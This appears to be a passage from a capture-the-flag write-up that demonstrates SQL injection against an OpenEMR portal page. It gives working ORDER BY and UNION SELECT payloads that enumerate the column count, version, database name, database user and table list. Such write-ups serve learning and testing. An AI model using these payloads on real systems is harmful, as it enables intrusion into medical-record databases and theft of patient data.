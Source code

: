 Now, let's make use of `ORDER BY` SQL query to find out how many fields are inside this sql query:

We'll send order by command and increment the value by 1 until we see an change in the result
```console
/portal/add_edit_event_user.php?eid=1 order by 1
/portal/add_edit_event_user.php?eid=1 order by 2
/portal/add_edit_event_user.php?eid=1 order by 3
/portal/add_edit_event_user.php?eid=1 order by 4
```
Till `eid=1 order by 4 ` we don't see any change in the result but on sending `eid=1 order by 5 ` a new error is returned as `Unknown column '5' in 'order clause'` :

![order](/assets/img/Posts/Cache/order.png)

This indicates we have 4 fields inside the SQL Query, which we'll use to draft our next query.

#### Step 3: SQL Injection Enumeration

We'll use **UNION SELECT** to combine our select statement results and find out version of the box by sending `VERSION()` inside our query, add `null` parameter for all four fields. I tried injecting version() inside all four but only third field returned the query result :

![select](/assets/img/Posts/Cache/select.png)

Next, let's enumerate Database name

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,database(),null HTTP/1.1
```

We can see our query resulted with database name as `openemr`

![database](/assets/img/Posts/Cache/database.png)

Next, let’s get the user which is running the queries on this SQL server.

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,user(),null
```

![user](/assets/img/Posts/Cache/user.png)

The user is `openemr@localhost`

Great! Now that our statement is working we can hop on to the next level to enumerate

#### Step 4: Enumerating Tables

Since, we already know we are running inside `openemr` database, Let’s try to get the list of tables under this database:

To understand Information scheme tables in details we can refer this [**page**](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)

> TABLE_SCHEMA: The name of the schema (database) to which the table belongs.

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,CONCAT(table_name),null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='openemr'
```
